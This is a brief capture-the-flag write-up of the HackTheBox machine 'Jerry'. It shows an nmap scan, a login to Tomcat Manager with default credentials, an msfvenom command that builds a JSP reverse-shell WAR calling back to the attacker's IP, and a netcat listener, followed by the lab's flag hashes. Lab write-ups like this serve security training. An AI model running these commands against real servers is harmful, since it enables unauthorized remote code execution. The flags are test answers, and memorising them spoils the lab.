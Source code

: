 # Jerry

Author: Ewaël

**Jerry** is an easy HackTheBox box by mrh4sh.

`nmap -sC -sV -oN nmap 10.10.10.95 -v -A` shows that only port 8080 is open. It is an Apache Tomcat server.

![tomcat](tomcat.png)

When trying to log in, the fail page suggests to use default creds `tomcat:s3cret`, which allow me to log as `Manager`.

![manager](manager.png)

After trying the Tomcat RCE via JSP Upload Bypass exploit, I start searching if I can exploit the WAR file upload, and I decide to follow this link:

[https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager)

I start creating my backdoor with `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.34 LPORT=4444 -f war > shell.war`, then I upload it and visit `/shell` after starting netcat with `nc -lvnp 4444`, which indeed pops a shell as `authority\system`.

Both user and root flag are located in `C:\Users\Administrator\Desktop\flags`:

![flags](flags.png)

- User: `7004dbcef0f854e0fb401875f26ebd00`
- Root: `04a8b36e1545a455393d067e772fe90e`
